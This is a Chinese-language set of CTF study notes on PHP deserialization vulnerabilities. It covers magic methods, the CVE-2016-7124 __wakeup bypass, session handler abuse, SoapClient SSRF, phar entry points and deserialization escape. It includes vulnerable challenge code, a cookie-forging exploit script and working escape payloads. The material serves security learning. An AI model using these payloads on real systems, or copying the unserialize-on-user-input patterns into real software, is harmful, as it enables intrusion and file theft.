




# 序列化漏洞

## 1. 序列化介绍

1. 序列化就是将对象状态转换为可保持或者可传输的格式（例如 Json）的过程。其逆过程就是反序列化，即将流数据转换成对象。

## 2. PHP 序列化

### 1. 序列化的函数：

1. 在 PHP 中，使用 `serialize()` 方法来序列化一个变量。

### 2. 例子

1. 假设有这样的一段代码：

    ```php
    $arr = array( 
      "0" => array( 
        "gameName" => "德乙", 
        "homeName" => "比勒费尔德", 
        "guestName" => "不伦瑞克", 
        "endTime" => "2015-08-21" 
      ), 
      "1" => array( 
        "gameName" => "英超", 
        "homeName" => "水晶宫", 
        "guestName" => "阿斯顿维拉", 
        "endTime" => "2015-08-22" 
      ) 
    ); 
    
    $serialize = serialize($arr); 
    echo $serialize; 
    ```

    然后其序列化的结果为：

    ```php
    a:2:{i:0;a:4:{s:8:"gameName";s:6:"德乙";s:8:"homeName";s:15:"比勒费尔德";s:9:"guestName";s:12:"不伦瑞克";s:7:"endTime";s:10:"2015-08-21";}i:1;a:4:{s:8:"gameName";s:6:"英超";s:8:"homeName";s:9:"水晶宫";s:9:"guestName";s:15:"阿斯顿维拉";s:7:"endTime";s:10:"2015-08-22";}} 
    ```

    将其放在 PHP 在线反序列化的网站中反序列化，得到：

    ### 

### 3. PHP 常见的 magic 方法：

 方法名                                        | 触发点                                                       
 --------------------------------------------- | ------------------------------------------------------------ 
 `__construct`                                 | 在创建对象时初始化对象（类似于构造函数），用于变量的初始化。**注意，反序列化时不会被执行。** 
 `__destruct`                                  | 对象销毁时调用，即用户销毁或者内核自动销毁时调用（有点像析构函数） 
 `__get`                                       | 用于外部从不可访问的属性读取数据，即在调用私有属性的时候会自动执行，或者访问类内**不存在的属性**时调用！ 
 `__set`                                       | 用于将数据写入不可访问的属性                                 
 `__isset`                                     | 在不可访问的属性上调用 `isset()` 或 `empty()` 触发           
 `__unset`                                     | 和 `__isset` 类似                                            
 `__call`                                      | 在对象上下文中**调用不可访问或者不存在的方法**时触发，即当调用对象中不存在的方法会自动调用该方法 
 `__callStatic`                                | 在对象上下文中调用不可访问或者不存在的静态方法时触发，即当调用对象中不存在的方法会自动调用该方法 
 `__sleep`                                     | 在调用 `serialize()` 时先被调用，其一般的作用是清理对象或者提交未提交的数据，并返回一个包含 对象中所有应该被序列化的变量名称的 数组（就是可以指定被序列化的内容）。如果未返回任何内容，那么 `null` 就会被序列化，并产生错误。 
 `__wakeup`                                    | **在调用 `unserialize()` 时先被调用**，返回空值，通常用于执行重新链接数据库或者其他初始化操作。 
 `__serialize`<br/>适用于 PHP 7.4.0 以上版本   | 优先级高于 `__sleep()` 且会替代其执行，如果对象继承实现了 `Serializable` 接口，那么该对象的 `serialize()` 将会被 `__serialize`() 替代。 
 `__unserialize`<br/>适用于 PHP 7.4.0 以上版本 | 和 `__serialize()` 差不多，同样会替代 `__wakeup()`           
 `__toString`                                  | 和 Java 的 `toString()` 类似                                 
 `__clone`                                     | 当对象被复制时调用                                           
 `__invoke`                                    | 在创建对象后，可以通过直接调用对象来触发。当**尝试以函数的方式调用一个对象时**，PHP 将查找并调用该对象的 `__invoke` 方法。 

## 3. PHP 反序列化的题目

### 3.1 绕过 `__wakeup` 和私有属性处理

1. `__wakeup` 的绕过漏洞代码为：CVE-2016-7124。
    具体来讲，就是当序列化字符串中表示**对象属性的个数值**大于**实际打印出来的真实的属性个数**时会跳过 `__wakeup` 的执行。
    影响版本为：Version < 5.6.25; Version < 7.0.10。

2. `private` 序列化后，PHPStorm 输出的乱码字符为 `%00(urlencode)` 或者 `\0`，可以手动用 `%00 或者 \0` 替换；同样的，对于 `protected`，其前缀的 `乱码*乱码` 也直接替换成 `\0\0\0`。

3. 参考例题：Buuctf 极客大挑战 2019 PHP：

    > https://www.cnblogs.com/murkuo/p/15375454.html
    > https://blog.csdn.net/Hardworking666/article/details/122373938

4. 同时，当 PHP 的 Version > 7.1 时，**反序列化对属性的类型不敏感**，这时可以直接将非 `public` 改成 `public` 就行。

5. 对于 `protected` 或者 `private` 成员，可以在类内**事先赋值**：
    
    例题：[MRCTF2020]Ezpop 1

### 3.2 反序列化例题：`__toString()` 的反序列化

1. `__toString()`，和 Java 的 `toString()` 很类似，当一个类被当作字符串使用的时候（例如打印出来），就会自动调用该方法。

2. 题目源代码如下：

    ```php+HTML
    <?php
    // 创建一个类
    Class readme{
        public function __toString()
        {
            // __toString() 的结果是将变量 source 指代的文件在网页中格式化显示。
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    // 用 GET 给 source 随便传值就可以获得源代码 
    if(isset($_GET['source'])){
        $s = new readme();
        $s->source = __FILE__;
        echo $s;
        exit;
    }
    // $todos = [];
    if(isset($_COOKIE['todos'])){
        $c = $_COOKIE['todos'];
        // 变量 h 获取 cookie 的前 32 位
        $h = substr($c, 0, 32);
        // 变量 m 获取 cookie 的 32 位向后的字符串
        $m = substr($c, 32);
        // 如果 m 的 md5 hash 值和 h 相等，则反序列化变量 m 的内容
        if(md5($m) === $h){
            $todos = unserialize($m);
        }
    }
    // 感觉这里可以应用，因为他序列化并且加密了（待学习补充）
    if(isset($_POST['text'])){
        $todo = $_POST['text'];
        $todos[] = $todo;
        $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    

5. 在 burpsuite 中设置 cookie 值（url 编码），让其反序列化并在 html 代码中遍历打印（**打印类时就会调用 `__toString()`**），从而将 `flag.php` 显示出来。

    

6. PHP 里面，把**变量当成字符串处理的函数**有很多，除了常见的字符串拼接，CTF 中常见的就是 `preg_replace()`。

### 3.3 PHP `session()` 反序列化漏洞

1. 参考：

    > https://xz.aliyun.com/t/6640?time__1311=n4%2BxnD0Dg7%3DYqBK0QD%2FiW4nxjOk9DcnYxzrYD&u_atoken=93a11ee063791e644a37c4865bfcba57&u_asig=ac11000117266476797094337e0146

2. 这篇文章讲的很详细，总结两点：

    1. 要找 Session 可控点。
    2. Session 序列化和反序列化是设置的 `serialize_handler` 不同。这个比较难以发现，在 CTF 中，要么代码明确表明；要么在 PHP7 时，用户可以通过调用 `session_start(array $options = [])`，控制参数从而修改 `session.serialize_handler`。

    上述两点共存可以绕过固定的序列化格式，从而注入恶意序列化数据。

3. 使用方法就是 `|` + `payload`。

### 3.4 `SoapClient::__call()` 反序列化 + CRLF = SSRF

1. 参考：

    > https://blog.csdn.net/weixin_50464560/article/details/118441689
    > https://blog.csdn.net/qq_42181428/article/details/100569464

2. 总结：

    1. 需要一个**反序列化**口。
    2. 需要一个**执行函数**的地方，通过使用 `SoapClinet::__call()` 来使得服务端发起请求。
    3. 通过 CRLF 漏洞，从而修改服务端发起请求的 HTTP 头部，从而达到特定的效果。

3. 总的来看，使用条件还是比较苛刻的，或许也就在 CTF 才能使用了吧。

4. 例题：LCTF bestphp's revenge。**本题很好，知识点很多：session 反序列化 + 变量覆盖 + SSRF**

### 3.5 反序列化逃逸

1. 序列化后能**成功序列化的字符串**的**长度是固定的**，后面多余的部分会被直接截断。

2. 题目经常会对序列化后的敏感内容进行过滤，以 [安洵杯 2019]easy_serialize_php 1 为例，其过滤函数就是：

    ```php
    function filter($img){
        $filter_arr = array('php','flag','php5','php4','fl1g');
        $filter = '/'.implode('|',$filter_arr).'/i';
        return preg_replace($filter,'',$img);
    }
    $serialize_info = filter(serialize($_SESSION));
    ```

3. 个人认为，这种逃逸的题目的两个关键是：

    1. 序列化格式被破坏。
    2. 长度被破坏。

#### 3.5.1 字符减少的情况 - 以 [安洵杯 2019]easy_serialize_php 1 为例

1. 题目代码：

    ```php
     <?php
    
    $function = @$_GET['f'];
    
    function filter($img){
        $filter_arr = array('php','flag','php5','php4','fl1g');
        $filter = '/'.implode('|',$filter_arr).'/i';
        return preg_replace($filter,'',$img);
    }
    
    
    if($_SESSION){
        unset($_SESSION);
    }
    
    $_SESSION["user"] = 'guest';
    $_SESSION['function'] = $function;
    
    extract($_POST);
    
    if(!$function){
        echo '<a href="index.php?f=highlight_file">source_code</a>';
    }
    
    if(!$_GET['img_path']){
        $_SESSION['img'] = base64_encode('guest_img.png');
    }else{
        $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
    }
    
    $serialize_info = filter(serialize($_SESSION));
    
    if($function == 'highlight_file'){
        highlight_file('index.php');
    }else if($function == 'phpinfo'){
        eval('phpinfo();'); //maybe you can find something in here!
    }else if($function == 'show_image'){
        $userinfo = unserialize($serialize_info);
        echo file_get_contents(base64_decode($userinfo['img']));
    } 
    ```

2. 序列化格式被破坏 - 表现为吞掉[键的所有和]值的序列化前缀（以后都叫前缀）。
    具体来说，就是在字符减少的情况下，原先的序列化格式遭到破坏，例如以本题的过滤函数为例，序列化数据（一对键值对） `s:7:"flagphp";s:3:"***";` 就会变成 `s:7:"";s:3:"***";`。此时键的长度和指定的长度不匹配，必然会报错。
    因此，为了保证结构不被破坏，那其必然会向后寻找字符作为键的内容，例如这时假如序列化数据正确的话，那么键的内容就变成了 `";s:3:"` 共 7 个字符。显然其值的（序列化）前缀被吞掉。上述是键内容逃逸，当然也可以让值内容逃逸。

3. 键的内容逃逸：

    1. 键的内容被过滤后，必然会向后吞掉其值的前缀。因此要额外构造一个值供该键匹配。
    2. 例如本题，想要构造的内容大概是：
        `a:2:{s:4:"flag";s:xx:";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`。
        其中的一对用户可输入的键值对是 `flag => ;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`，如果长度对的情况下，后面的 `";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`就会被截断。
        这里的 xx 表示长度，预估输入的内容的长度是两位数。
    3. 分析一下，其吞掉的内容应该是 `";s:xx:`，这样后面的 `;s:3:"img"...` 才能符合序列化的结果以被解析，且双引号正好闭合键的内容；因此吞掉的空间，也就是空位是 7 个字符。
    4. 所以我们要空出 7 个空间，因此输入的键的内容是 `flagphp`。
    5. 接着看，吞掉后，前面 `flagphp` 的值没了，其后面的 `img` 是键，不能作为其的值，不然键值数量不匹配（一个键值对，一个单独的键），所以要为 `flagphp` 创建一个值。
    6. 这里需要注意的是，被截断部分的开头是有个双引号的，这个双引号是序列化时生成的，我们要把他截掉，那么原先的长度肯定是包含他的，现在要截取他，因此我们空出的空间实际上就是 7 + 1 = 8 个。因此构造出来的值要占据 8 个空间，所以可以构造 `;s:1:"1"`，长度恰好为 8，把他塞入 `img` 的前面，就可以作为 `flagphp` 的值了。
    7. 所以 payload 为：
        `_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`。

4. 值的内容逃逸

    1. 相比键的内容逃逸，值的内容逃逸将下一个键值对的**键和值的前缀**（输入的内容为下一个键值对的值的内容）和一个双引号一起消耗（两种情况总之要把想覆盖内容的键值对的**前面都给变成前一对键值对的键或值的内容**），那序列化时就要补一个键值对，所以相比键构造就要**多一个键值对**。
    2. 例如我们想构造：
        `a:3:{s:1:"a";s:xx:"被消去的内容";s:1:"b";s:xx:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`。
        其中 xx 依旧表示我们带输入内容的长度，预估不会超过两位数。
    3. 同样的，`a` 的值内容应该是 `";s:1:"b";s:xx:"`，这样才能保证 `img` 作为键有效。可以看出，需要至少 15 个空位（至少是因为 "b" 可以变长）。
    4. 因此前面还是腾出 15 个空位，末尾需要补充一个键值对以保证键值对的数量对上，同时长度还要对上。因此需要长度为 16 的一个键值对（别忘了结尾有个双引号要截断，从而腾出一个空位）。所以构造 `s:1:"1";s:1:"1";`，这样就填上了空位。
    5. 所以最终的 payload 可以是：
        `_SESSION[a]=flagflagflagphp&_SESSION[b]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"1";}`。

5. 上述内容忽略了一个情况：那就是 `img` 的内容编码后长度一致，恰巧都是 20 个字符。假设新的长度是 20+ 而不是 20，那么在假定空位固定的情况下，其会被占掉一部分。以键的内容逃逸为例，如果长度为 23，那么原本的空位为 7，多出来 3 个字符占空位，那么导致构造出来的值的长度就是 7 - 3 + 1 = 5，那么此时构造的值的内容就是 `;i:11`。同样的，如果缩短，那么空位就会多出来，值的长度就要增加。

### 3.6 `phar` 协议结合 `phar` 文件构造出反序列化入口

1. 参考：

    > 主要知识点：https://blog.csdn.net/q20010619/article/details/120833148
    > `phar` 文件签名修复：https://blog.csdn.net/qq_53460654/article/details/121889104

2. 总结一下常用点

    1. `phar` 协议可以提供一个序列化口。
    2. `phar` 内部修改内容需要重新修复签名。
    3. `phar` 文件可以模仿其他文件，从而绕过某些文件检测。

3. 后面如果有出现绕过啥的，到时再搜再补充。

4. 例题：[TSCTF-J2024]1z_serialize_revenge。

### 3.7 PHP 报错前提前触发 `__destruct`

1. 参考文章：

    > https://www.cnblogs.com/uf9n1x/p/17187821.html
    > https://xz.aliyun.com/t/11843?time__1311=Cq0xuD0DnD203GNem%3DDRC6Ki%3DkRK0IoKx#toc-5

2. 原理比较复杂，有空再去了解吧，但是核心结论有两点：

    1. 对象被 `unset()` 销毁处理。
    2. 对象在数组中，但是其 `key` 后来被其他对象使用（用 Cpp 的角度来说，就是失去了指针）。

3. 所以在 CTF 中，使用 `__desctruct` 一般都是 POP 链中的最外层，这时就需要在链外额外嵌套一层数组，然后修改链的数组内指针，从而触发 POP 的 `__destruct`：
    ```php
    # 序列化
    $payload = array($pop, 0);
    echo serialize($payload);
    # a:2:{i:0;O:x:...}i:1;i:0;}
    # 将其修改为：
    # a:2:{i:0;O:x:...}i:0;i:0;}
    ```

    这样序列化时，数组的第一个元素就从 POP 被替换成了第二个元素，这时的 POP 链失去了“指针”，从而触发垃圾回收机制以执行 `__destruct`。

4. 例题：[TSCTF-J2024]1z_serialize_revenge。
